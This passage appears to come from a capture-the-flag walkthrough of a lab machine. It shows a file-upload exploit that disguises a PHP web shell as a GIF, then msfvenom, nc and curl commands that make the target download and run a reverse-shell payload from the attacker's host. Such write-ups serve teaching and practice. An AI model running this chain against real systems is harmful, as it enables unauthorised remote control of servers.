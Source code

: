 ```python
    io.StringIO('GIF89a' + PHP),
    'image/gif',
  )
})
print(r.text)
```

This Python will upload a web shell that will pass MIME type checks using the file signature `GIF87a` for  GIF file. This signature is used since its magic bytes are all ASCII. The backgorund for this vulnerability is based on Apache's multiple file extension interpretation feature:

- https://httpd.apache.org/docs/2.4/mod/mod_mime.html#multipleext

Running this script and testing if it works gives a valid web shell:

```bash
# above Python saved as exploit.py
python3 exploit.py
# test if shell is working
curl -s -G http://10.10.10.146/uploads/10_10_14_17.php.gif --data-urlencode 'c=whoami'
```

![webshell](./networked/webshell.png)

Now use this web shell to get a more dedicated shell on the target:

```bash
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.17 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf \
         -o bubba.elf
# host the payload on port 8080
python3 -m http.server 8080
# wait for the callback
nc -nvlp 6969
# check for a valid web fetcher on the target
curl -s -G http://10.10.10.146/uploads/10_10_14_17.php.gif \
  --data-urlencode 'c=which wget || which curl'
# send the command to download and execute the payload
curl -s -G http://10.10.10.146/uploads/10_10_14_17.php.gif \
  --data-urlencode 'c=curl -s -o /tmp/bubba.elf http://10.10.14.17:8080/bubba.elf && chmod +x /tmp/bubba.elf && /tmp/bubba.elf &'
```

![shell](./networked/shell.png)
